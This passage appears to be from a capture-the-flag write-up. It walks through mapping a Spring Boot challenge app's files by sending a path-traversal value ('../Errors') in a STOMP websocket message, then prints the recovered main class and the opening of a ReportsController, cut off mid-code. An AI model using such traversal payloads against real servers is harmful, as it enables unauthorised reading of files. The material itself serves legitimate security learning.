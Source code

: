 Though we can't access the root filesystem, we can take educated guesses on what files exist where based on the conventions of Java and Spring. I based many of these guesses on the file structure of [this](https://github.com/spring-projects/spring-petclinic) example Spring Boot project.

```js
>> stompClient.send("/app/help", {}, JSON.stringify({'module': "../Errors", 'subId': subId}))
<< {"content":"java.io.IOException: Is a directory"}
```

From the URLs we've visited so far, we can find that `/Reports` and `/Errors` are directories. From knowledge of Spring projects and the messages sent back to other teams, we can find that
- `.mvn/`
- `src/[main|test]/java/com/example/developershubris`
-  `src/resources/java/`
	-  `src/resources/java/templates`
	-  `src/resources/java/static`

are all valid directories.

The example Spring project linked above gives `PetclinicApplication.java` as its main class. Sure enough, we can find a `src/main/java/com/example/developershubris/DevelopersHubrisApplication.java` file:
```java
package com.example.developershubris;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class DevelopersHubrisApplication {
    public static void main(String[] args) {
        SpringApplication.run(DevelopersHubrisApplication.class, args);
    }
}
```

as well as various Spring Controllers and their dependencies for the various parts of the application we've found so far. We'll start with the first controller I found, `ReportController`:

```java
package com.example.developershubris;

import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.nio.file.Path;
import java.util.ArrayList;
import java.util.Arrays;
import java.util.List;
import java.util.stream.Collectors;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class ReportsController {
    @GetMapping("/reports")
    public String getReports(@RequestParam() String name, Model model) throws IOException {
        Path reportsPath = PathSecurityUtil.GetSafePath("Reports/" + name);
        File reportsDirectory = reportsPath.toFile();
        List<String> reportsNames = new ArrayList<>();
        if (reportsDirectory.exists()) {
            File[] reportFiles = reportsDirectory.listFiles((reportFile) -> !reportFile.isHidden());
```